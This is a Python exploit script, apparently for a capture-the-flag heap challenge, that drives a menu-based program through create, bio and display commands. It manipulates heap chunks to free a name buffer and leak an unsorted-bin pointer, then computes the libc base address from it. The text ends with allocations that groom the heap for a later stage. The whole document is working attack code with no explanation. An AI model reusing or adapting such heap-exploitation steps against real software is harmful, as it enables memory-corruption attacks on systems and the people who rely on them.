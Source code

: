 ```python

def wait_prompt():
    print("".join(map(chr, p.recvuntil("> "))).rstrip())

def create(name):
    wait_prompt()
    echo("create " + name)

def bio(name, namelen, biobytes):
    wait_prompt()
    echo("bio " + name)
    length = str(namelen)
    joinchar = ""
    if len(length) < 3:
        joinchar = "\n"
    my_bytes = (length + joinchar).encode("ascii")
    echo(my_bytes + biobytes)
    if not joinchar and namelen > 255:
        p.recvuntil("Invalid option")
        p.recvuntil("exit the program\n")

def display(name=""):
    wait_prompt()
    strsearch = name + " - "
    print("display")
    p.sendline("display")
    resp = b''
    resp += p.recvuntil(strsearch)
    bio = p.recvline(keepends=False)
    resp += bio + b'\n'
    line = p.recvline()

    while line != b'\n':
        resp += line
        line = p.recvline()
    
    print("".join(map(chr, resp)).rstrip())
    return "".join(map(chr, bio))

create("a")
bio("a",151, b'abc')

create("b") # move the frontier

bio("a", 300, b'') # frees the name for a

aaddrstr = display("a")
aaddr = u64(aaddrstr.ljust(8, '\0'))
libcaddr = aaddr - 0x3C4B78 # offset of unsorted bin header
print("Leaked Addr: 0x%08X" % aaddr)
print("LIBC ADDR: 0x%08x" % libcaddr)

# 3 chunk allocations + 3 name allocations = entire unsorted bin is consumed
# needed because setting a bio requires 0-initialized memory
create("junk1")
create("junk2")
create("junk3")

create("c")
create("d")
create("e")
create("f")
create("g")
```